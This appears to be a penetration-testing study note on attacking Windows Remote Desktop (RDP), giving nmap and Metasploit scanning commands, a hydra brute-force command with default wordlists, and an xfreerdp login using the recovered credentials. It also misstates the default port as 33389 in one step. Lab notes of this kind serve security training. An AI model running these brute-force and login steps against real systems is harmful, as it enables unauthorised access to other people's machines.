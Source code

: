 <h1>Exploiting RDP</h1>
</hr>
<ul>
  <li>
    The Remote Desktop Protocol (RDP) is a proprietarty GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
  </li>
  <li>
    RDP uses T CP port 3389 by default and can also be  configured to run on any other TCP port.
  </li>
  <li>
    RDP authentication requires a legitimate user account on the target system as well the user's passwrod in clear-text.
  </li>
  <li>
    We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.
  </li>
</ul>
</hr>
<h2>Pratically</h2>
<ol>
  <li>
    Target {ip}
  </li>
  <li>
    Nmap scan</br> <code>nmap -sV {ip}</code>
  </li>
  <li>
    RDP may or may not run on defult port which is 33389
  </li>
  <li>
    Metasploit:</br>
    <code>service postgresql start && msfconsole</code></br>
    <code>search rdp_scanner</code></br>
    <code>use auxiliary/rdp/rdp_scanner</code></br>
    change port if needed in my case <code>set RPORT 3333</code></br>
    <code>set RHOSTS {ip}</code></br>
    <code>run</code>
  </li>
  <li>
    brute Force:</br>
    <code>hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwrod.txt rdp://{ip}: -s 3333 (change port if needed)</code>       
  </li>
  <li>
    After gettiing Username and password</br>
  <code>xfreerdp /u:administrator /p:password /v:{ip}:3333</code></ol></br><span>chage port if needed </span>
  </li>
</ol>
Note: You use xfreerdp3 when xfreerdp not work 
